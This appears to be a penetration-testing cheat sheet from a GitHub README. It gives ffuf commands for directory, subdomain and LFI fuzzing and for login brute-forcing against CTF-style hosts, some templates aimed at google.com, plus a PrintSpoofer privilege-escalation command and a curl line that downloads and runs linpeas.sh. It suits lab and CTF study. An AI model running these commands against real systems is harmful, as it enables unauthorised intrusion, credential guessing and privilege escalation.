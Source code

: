   
## Ffuf
- ###  Fuzzing URL Directory
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://google.com/FUZZ
###### Example :
```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://trick.htb/FUZZ 
```

- ###  Fuzzing Subdomain Directory
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://google.com/ -H 'Host: FUZZ.google.com' -v -fs 5480 
###### Example :
```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://trick.thb/ -H 'Host: FUZZ.trick.htb' -v -fs 5480 
```

- ###  Fuzzing LFI Directory
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://google.com/index.php?page=FUZZ -v -fs 0
###### Example :
```
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -v -fs 0 
```

- ###  Fuzzing Username Directory
```
ffuf -w /usr/share/wordlists/dirb/big.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.169/customers/signup -mr "username already exists" 
```

- ###  Fuzzing Password Directory
```
ffuf -w ./your_valid_usernames.txt:W1,./your-wordlists:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.169/customers/login -fc 200 
```

- ###  Fuzzing Extension File
```
ffuf -u http://10.10.124.201/indexFUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt 
```
---------------------------------------------------------------------------

## PrintSpoofer
- ###  Windows Priviledge Escalation
Software .exe -> https://github.com/dievus/printspoofer
###### Example :
```
PrintSpoofer.exe -i -c cmd 
```
---------------------------------------------------------------------------
## Peass-ng
- [Link Repo PEASS](https://github.com/carlospolop/PEASS-ng)
- [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
### 𝚰. Linpeas
- ### Linpeas with curl 
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh  
```